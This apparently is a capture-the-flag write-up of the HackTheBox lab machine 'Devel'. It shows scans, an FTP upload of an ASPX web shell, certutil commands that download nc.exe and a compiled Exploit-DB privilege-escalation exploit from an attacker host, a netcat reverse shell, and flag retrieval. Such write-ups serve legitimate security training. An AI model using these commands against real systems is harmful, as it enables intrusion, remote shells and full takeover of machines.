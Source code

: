 **Ping**
```
ping 10.10.10.5
```
![[Pasted image 20240614195220.png]]

Nmap Initial Scan
```
nmap -p- --min-rate 10000 10.10.10.5 -oN inmap
```
![[Pasted image 20240614195451.png]]

Nmap Script and Service Scan
```
nmap 10.10.10.5 -sCV -oN snamp
```
![[Pasted image 20240614195508.png]]

FTP Enumeration
![[Pasted image 20240614201628.png]]




Looks like as aspnet website, so will transfer our cmdasp.aspx file 
```
put cmdasp.aspx
```
![[Pasted image 20240614201722.png]]

Now will request the cmdasp.aspx
![[Pasted image 20240614201746.png]]
Coooool, we got RCE 

```
whoami
```
![[Pasted image 20240614201847.png]]

Will Get a reverse shell using this RCE
```
certutil -urlcache -f http://10.10.14.2/nc.exe c:/windows/temp/nc.exe
```
![[Pasted image 20240614202047.png]]

```
dir C:\windows\temp
```
![[Pasted image 20240614202130.png]]

We can see our nc.exe, so its time to get a reverse shell
```
C:\windows\temp\nc.exe -e cmd.exe 10.10.14.2 443
```
![[Pasted image 20240614202500.png]]

We got reverse shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240614202555.png]]



Will see our Privileges
```
whoami /priv
```
![[Pasted image 20240614203011.png]]
Cool, we have impersonation privilege

But, after some hard tries, i can't use impersonate privilege to escalate my Privilege

Will try build Exploit for out target system
```
systeminfo
```
![[Pasted image 20240614205430.png]]
Got it I guess, Its a vulnerable build

Will find public exploit for the vulnerable build
![[Pasted image 20240614205544.png]]

We are using the Exploit-db's exploit https://www.exploit-db.com/exploits/40564
![[Pasted image 20240614205639.png]]

Will use this accordingly
```
i686-w64-mingw32-gcc exp.c -o exp.exe -lws2_32
```
![[Pasted image 20240614205712.png]]
I have saved the exploit code in file named exp.c

And I have transferred the exploit to the target machine
```
certutil -urlcache -f http://10.10.14.2:8080/exp.exe c:/users/public/exp.exe
```
![[Pasted image 20240614205846.png]]
![[Pasted image 20240614205816.png]]

![[Pasted image 20240614205928.png]]

Will run the exploit
```
exp.exe
```
![[Pasted image 20240614205958.png]]
Cooool, We are admin now...!

Found the flags location
```
dir /s /b C:\user.txt
```
```
dir /s /b C:\root.txt
```
![[Pasted image 20240614210105.png]]

Retrieved the flags
User.txt
![[Pasted image 20240614210234.png]]

root.txt
![[Pasted image 20240614210327.png]]




Done with Devel…..:)